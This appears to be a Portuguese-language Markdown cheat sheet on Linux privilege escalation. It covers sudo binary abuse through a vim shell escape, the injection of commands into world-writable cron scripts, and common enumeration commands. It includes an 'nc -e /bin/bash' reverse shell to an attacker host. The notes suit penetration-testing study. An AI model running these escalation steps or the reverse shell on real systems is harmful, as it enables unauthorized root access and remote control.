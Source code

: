 # Escalação de Privilégio Linux

## PrivEsc explorando binário através do sudo
Devemos identificar os binários que podem ser executados com sudo com o comando `sudo -l` e à partir dai pesquisar por vulnerabiidades no binário.  

### GTFOBins
Busque por exploits para binários no [GTFOBins](https://gtfobins.github.io/#p).

### vim
Uma forma de explorar o **vim** seria utilizando a flag `-c` para enviar comandos através do editor de texto.  
```
sudo vim -c '!bash'
```

## PrivEsc através de permissões e CRON
Vamos verificar o diretório que contém os scripts que serão executados periodicamente através do comando `cat /etc/crontab` e logo em seguida podemos verificar os scripts dentro dos periodos específicos como hora em hora, diariamente, semanalmente e mensalmente com `ls /etc/cron.hourly`.  
Após identificar os scripts, podemos verificar quais possuem permissão total (777). Também podemos buscar por arquivos com permissão total através do comando `find / -type f -perm 777 2>/dev/null`.  
Com o script identificado, podemos inserir comandos que serão executados conforme o agendamento do script.
```
nc -e /bin/bash $LHOST $LPORT
```

## PrivEsc explorando o kernel  
Verifique a versão do kernel com `uname -a` e qual arquitetura. Também levante os dados do sistema operacional com `cat /etc/issue`.  

##

## Ferramentas

### Enumeração  
linpeas.sh  

### Pesquisa por vulnerabilidades
linus-exploit-suggester.sh

## Comandos básicos para enumeração    

Verificar nome da máquina  
```
hostname
```

Verificar informações sobre o sistema  
```
uname -a
```

Verificar versão do sistema operacional
```
cat /etc/issue
cat /etc/*-release
```

Verificar os programas instalados
```
dpkg -l | grep "wget"
```

Verficar segmentos de rede  
```
ifconfig -a
```

Verificar as tabelas de roteamento
```
route
```

Verificar portas abertas
```
netstat -nlpt
netstat -nlpu
```

Verificar procesos em execução
```
ps aux
```

Verificar tarefas agendadas  
```
cat /etc/crontab
```

Encontrar diretórios com permissão de escrita
```
find  / -writable -type d 2>/dev/null
```

Encontrar arquivos com permissão SUID
```
find  / -perm -u=s -type f 2>/dev/null
```

Listar programas com sudo habilitado para o usuário  
```
sudo -l
```

